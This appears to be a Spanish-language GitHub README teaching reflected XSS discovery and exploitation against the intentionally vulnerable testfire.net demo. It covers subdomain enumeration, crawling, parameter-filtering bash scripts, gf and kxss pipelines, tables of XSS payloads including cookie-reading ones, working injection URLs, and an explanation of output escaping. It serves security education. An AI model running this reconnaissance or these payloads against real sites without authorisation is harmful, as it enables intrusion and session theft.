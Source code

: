 # Reflected XSS Framework

![Anatomía de un ataque XSS](https://websitesecuritystore.com/wp-content/uploads/2021/07/cross-site-scripting-examples.svg)

>*Imagen tomada de: [Website Security Store](https://websitesecuritystore.com)*

Este repositorio contiene un marco de trabajo básico para la detección y explotación ética de vulnerabilidades de tipo **XSS reflejado**.

---

## ⚠️ Disclaimer

> Este proyecto es **exclusivamente para fines educativos** y de **pruebas en entornos controlados**.  
> No está permitido su uso en sistemas sin la debida autorización.  
> **Demo utilizada:** [http://testfire.net](http://testfire.net) con credenciales `admin:admin`  
> Esta aplicación está diseñada intencionalmente para tener fallas de seguridad.  
> *“This web application is purposely designed to have security vulnerabilities for educational and testing purposes.”*

---
<!-- espacio -->
## 1. Agregar HTTP Headers personalizados en Burp Suite

```bash
# En Burp -> Proxy -> match/replace rule
# Añadir:
Type: Request header
Match: ^User-Agent.*$
Replace: X-Pentest: Kxss_PoC 
Comment: (empty)
```
```bash
#Auto-modified request
POST /update HTTP/2
Host: example.com
Content-Type: application/json
X-Pentest: Kxss_PoC 
Content-Length: 34

{
  "key1": "value1",
  "key2": "value2"
}
```
>*Referencias: [Requestly](https://requestly.com/blog/modify-headers-in-https-requests-and-responses-in-chrome-firefox-safari/) [Exploit-notes](https://exploit-notes.hdks.org/exploit/web/tool/add-custom-http-headers-in-burp-suite/) [Website for testing header](https://httpbin.org/headers)*

<!-- espacio -->
## 2. Encontrar subdomains
```bash
subfinder -d testfire.net -silent -all -recursive -o testfire.net_subs.txt
amass enum -passive -d testfire.net -o testfire.net_amass_subs.txt
url -s "https://crt.sh/?q=%25.testfire.net&output=json" | jq -r '.[] | .name_value' | sed 's/\*\.//g' | anew testfire.net_crt.txt
github-subdomains -d testfire.net -t [github_token] -o testfire.net_github_subs.txt
cat *_subs.txt | sort -u | anew testfire.net_all_subs.txt
```
```bash
# Obtener token github
#Fine-grained personal access tokens -> Generate new token
```
>*Referencias: [Generate Token](https://github.com/settings/personal-access-tokens/)*

<!-- espacio -->
## 3. Web Crawling para encontrar URLs interesantes
```bash
#Simple command
katana -u testfire.net -silent -jc -o testfire.net_katana_results.txt
```
> Bash práctico para muchos subdomains
```bash
nano run_katana.sh
chmod +x run_katana.sh
./run_katana.sh
```
<details>
<summary>📜 Ver script Bash completo</summary>

```bash
#!/bin/bash

INPUT="testfire.net_all_subs.txt"
OUTPUT="testfire.net_katana_results.txt"

# Limpiar salida anterior
> "$OUTPUT"

# Filtrar subdominios válidos y ejecutar katana
grep -oP '(?:[a-zA-Z0-9_-]+\.)+testfire\.net' "$INPUT" | sort -u | while read -r sub; do
    echo "[+] Escaneando: http://$sub"
    katana -u "http://$sub" -silent -jc >> "$OUTPUT"
done

echo "[+] Finalizado. Resultados en $OUTPUT"
```
</details>

<!-- espacio -->
## 4. Buscar patrones comunes de XSS en URLs
```bash
nano filtrar_parameters_xss.sh
chmod +x filtrar_parameters_xss.sh
./filtrar_parameters_xss.sh
```
<details>
<summary>📜 Ver script Bash completo</summary>

```bash
#!/bin/bash

# Archivo de entrada
INPUT_FILE="testfire.net_katana_results.txt"

# Archivo de salida
OUTPUT_FILE="parametros_xss.txt"

# Lista de parámetros sospechosos
PARAMS=(
"q"
"s"
"search"
"lang"
"keyword"
"query"
"page"
"keywords"
"year"
"view"
"email"
"type"
"name"
"p"
"callback"
"jsonp"
"api_key"
"api"
"password"
"emailto"
"token"
"username"
"csrf_token"
"unsubscribe_token"
"id"
"item"
"page_id"
"month"
"immagine"
"list_type"
"url"
"terms"
"categoryid"
"key"
"l"
"begindate"
"enddate"
)

# Crear expresión regular separada por |
REGEX=$(IFS=\| ; echo "${PARAMS[*]}")

# Filtrar y guardar en archivo de salida
grep -Ei "\b(${REGEX})\b" "$INPUT_FILE" > "$OUTPUT_FILE"

echo "[+] Resultados guardados en $OUTPUT_FILE"
```
</details>

>*Referencias: [Patrones xss](https://github.com/1ndianl33t/Gf-Patterns/blob/master/xss.json)*

<!-- espacio -->
## 5. Investigación de candidatos
```bash
#cat parametros_xss.txt
https://demo.testfire.net/search.jsp
...
https://demo.testfire.net/swagger/err/error-transformers/transformers/not-of-type.js
https://demo.testfire.net/swagger/download-url.js
```

<details>
<summary>📜 Top payloads para testing</summary>

| Nº  | Payload                                             | Descripción                                                                 |
|-----|-----------------------------------------------------|------------------------------------------------------------------------------|
| 1  | `<script>alert(1)</script>`                         | Funciona cuando se inserta en HTML sin sanitizar.                  |
| 2  | `"><script>alert(1)</script>`                       | Cierra un atributo HTML antes de inyectar el script.                        |
| 3  | `<img src=x onerror=alert(1)>`                      | Ejecuta código JavaScript al fallar la carga de la imagen.                  |
| 4  | `<svg onload=alert(1)>`                             | SVG permite eventos como `onload`, útil para bypass en filtros simples.     |
| 5  | `<iframe src="javascript:alert(1)">`                | Ejecuta código desde el atributo `src`, usando el protocolo `javascript:`.  |
| 6  | `<body onload=alert(1)>`                            | Si se puede controlar etiquetas HTML, permite ejecutar al cargar el body.   |
| 7  | `<math><mtext><script>alert(1)</script>`           | Usa etiquetas poco comunes que a veces no son filtradas por WAFs.           |
| 8  | `<script>confirm(1)</script>`                       | Alternativa a `alert()`, puede evadir detecciones básicas.                  |
| 9  | `<details open ontoggle=alert(1)>`                  | HTML5: evento `ontoggle` poco filtrado, efectivo en bypass.                 |
| 10   | `<a href="javascript:alert(1)">Click</a>`           | Si el tag `<a>` es permitido, ejecuta JS al hacer clic.                     |

| Nº  | Payload                                                              | Descripción                                                                 |
|-----|----------------------------------------------------------------------|------------------------------------------------------------------------------|
| 1️  | `<script>alert(document.cookie)</script>`                            | Muestra las cookies activas de la sesión.                                   |
| 2  | `<script>alert(document.domain)</script>`                            | Muestra el dominio actual de ejecución.                                     |
| 3  | `<script>alert(document.location)</script>`                          | Imprime la URL completa del documento.                                      |
| 4  | `<script>alert(document.referrer)</script>`                          | Muestra desde qué página se llegó al sitio.                                 |
| 5  | `<script>alert("Cookie: "+document.cookie)</script>`                | PoC más personalizada mostrando la cookie.                                  |
| 6  | `<script>alert("URL: "+window.location.href)</script>`              | Muestra la URL completa con más claridad.                                   |
| 7  | `<script>alert("Dominio: "+location.hostname)</script>`             | Útil para fingerprint o confirmar subdominios.                              |
| 8  | `<script>alert("Ruta: "+location.pathname)</script>`                | Ruta del recurso dentro del sitio.                                          |
| 9  | `<script>alert("User-Agent: "+navigator.userAgent)</script>`        | Muestra el navegador/vista del cliente.                                     |
| 10   | `<script>alert("Cookie: "+document.cookie+"\nRef: "+document.referrer)</script>` | Combina datos clave en un solo pop-up.                            |

</details>

```bash
# Payload básico para la PoC:
<script>alert(document.cookie)</script>
#Url
https://demo.testfire.net/search.jsp?query=investor
https://demo.testfire.net/search.jsp?query=<script>alert(document.cookie)</script>
```
> Abrimos la ulr

![image](https://github.com/user-attachments/assets/8158af39-7bb6-478d-b70d-30124c771260)
> Testeamos el parámetro reflejado

![image](https://github.com/user-attachments/assets/7752fc90-2800-4a75-8ec9-ee26f52c385d)
> Insertamos el payload

![image](https://github.com/user-attachments/assets/1136a0b4-5fc0-4a46-a3b4-f1703687c70d)



>*Referencias: [Payload xss comunes](https://github.com/payloadbox/xss-payload-list)*

<!-- espacio -->
## 6. ¿Qué está pasando background?
> El servidor inserta directamente lo que escribimos en query en su HTML

```bash
<td valign="top" colspan="3" class="bb">
 <div class="fl" style="width: 99%;">
  <h1>Search Results</h1>
	<p>No results were found for the query:<br /><br />
	<script>alert(document.location)</script>
 </div>    
</td>	
```
> El navegador no ve eso como texto, sino como un verdadero elemento <script>, y por eso lo ejecuta inmediatamente.
> Para evitar este ataque, debería escapar los caracteres especiales como <, >, " y ' en el parámetro query.
> De esta forma, el navegador lo mostraría como texto, no lo ejecutaría.

```bash
<p>No results were found for the query:<br /><br />
&lt;script&gt;alert(document.location)&lt;/script&gt;
```

<!-- espacio -->
## 7. Automatizar Busqueda Reflected XSS
> Nos apoyamos de la tools gf para encontrar parametros comunes con posibles xss reflect
```bash
go install github.com/tomnomnom/gf@latest
#clonar patrones
mkdir -p ~/.gf
git clone https://github.com/1ndianl33t/Gf-Patterns
cp Gf-Patterns/*.json ~/.gf
```
<details>
<summary>📜 xss.json</summary>

```bash
$  cat ~/.gf/xss.json
{
     "flags": "-iE", 
     "patterns": [
"q=",
"s=",
"search=",
"lang=",
"keyword=",
"query=",
"page=",
"keywords=",
"year=",
"view=",
"email=",
"type=",
"name=",
"p=",
"callback=",
"jsonp=",
"api_key=",
"api=",
"password=",
"email=",
"emailto=",
"token=",
"username=",
"csrf_token=",
"unsubscribe_token=",
"id=",
"item=",
"page_id=",
"month=",
"immagine=",
"list_type=",
"url=",
"terms=",
"categoryid=",
"key=",
"l=",
"begindate=",
"enddate="

]
}
```
</details>

> Filtrar el fichero que contiene las url katana que contengan patrones xss

```bash
cat testfire.net_katana_results.txt | gf xss

https://demo.testfire.net/survey_questions.jsp?step=a
https://demo.testfire.net/util/serverStatusCheckService.jsp?HostName=
https://demo.testfire.net/disclaimer.htm?url=http://www.microsoft.com
https://demo.testfire.net/disclaimer.htm?url=http://www.netscape.com 
```
> Filtrar el fichero que contiene las url katana que contengan patrones xss
```bash
#payload:
<script>alert(document.cookie)</script>
https://demo.testfire.net/util/serverStatusCheckService.jsp?HostName=
https://demo.testfire.net/util/serverStatusCheckService.jsp?HostName=%3Cscript%3Ealert(document.cookie)%3C/script%3E
```
![image](https://github.com/user-attachments/assets/0c5a3d6a-883c-4322-825a-73bc2747f7f3)

<!-- espacio -->
> Kxss
>> Kxss parametros previos filtrados

```bash
cat demo.testfire.net_katana_results.txt 
https://demo.testfire.net
...
https://demo.testfire.net/survey_questions.jsp?step=a
```
```bash
cat demo.testfire.net_katana_results.txt | grep = | kxss > kxss_test.txt  
```
```bash
cat kxss_test.txt  
URL: https://demo.testfire.net/index.jsp?content=business_retirement.htm Param: content Unfiltered: [" ' < > $ | ( ) ` : ; 
...
URL: https://demo.testfire.net/index.jsp?content=inside_press.htm Param: content Unfiltered: [" ' < > $ | ( ) ` : ; { }] 
URL: https://demo.testfire.net/index.jsp?content=business_cards.htm Param: content Unfiltered: [" ' < > $ | ( ) ` : ; { }] 
URL: https://demo.testfire.net/index.jsp?content=inside_careers.htm Param: content Unfiltered: [" ' < > $ | ( ) ` : ; { }] 
```

<!-- espacio -->
>> Kxss usando urlfinder (10/10)
```bash
urlfinder -d demo.testfire.net | grep = | kxss > kxss_demo.txt
```
```bash
urlfinder -d demo.testfire.net | grep = | kxss > kxss_demo.txt
```
```bash
nano kxss_scan.sh
chmod +x kxss_scan.sh
./kxss_scan.sh
```
<details>
<summary>📜 Ver script Bash completo</summary>

```bash
#!/bin/bash

# Archivo con subdominios
SUBDOMAINS_FILE="testfire.net_all_subs.txt"
# Carpeta de salida
OUTPUT_DIR="kxss_results"
# Crear carpeta si no existe
mkdir -p "$OUTPUT_DIR"

# Iterar sobre cada subdominio
while read -r sub; do
    echo "[*] Escaneando: $sub"
    
    # Normalizar nombre para el fichero de salida
    OUT_FILE="${OUTPUT_DIR}/${sub//./_}.txt"
    
    # Ejecutar pipeline
    urlfinder -d "$sub" | grep = | kxss > "$OUT_FILE"
    
    echo "[+] Resultados guardados en: $OUT_FILE"
done < "$SUBDOMAINS_FILE"

echo "[✔] Escaneo finalizado. Revisa la carpeta: $OUTPUT_DIR"
```
</details>
![image](https://github.com/user-attachments/assets/4243779d-aee0-412f-bb42-2dec702a4c26)

<!-- espacio -->
<!-- espacio -->
## Creditos y Recursos
>*Referencias: [PortSwigger](https://portswigger.net/web-security/cross-site-scripting)*
>>*Referencias: [TryHackme](https://tryhackme.com/room/axss)*
>>>*Referencias: [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)*
>>>>*Referencias: [AmrSec](https://www.youtube.com/watch?v=bAHNM8IInwE&ab_channel=AmrSec)*
>>>>>*Referencias: [Javo y LemonOfTroy](https://www.youtube.com/watch?v=EUWEdaNvxSM&ab_channel=ThreatXSecurity)*

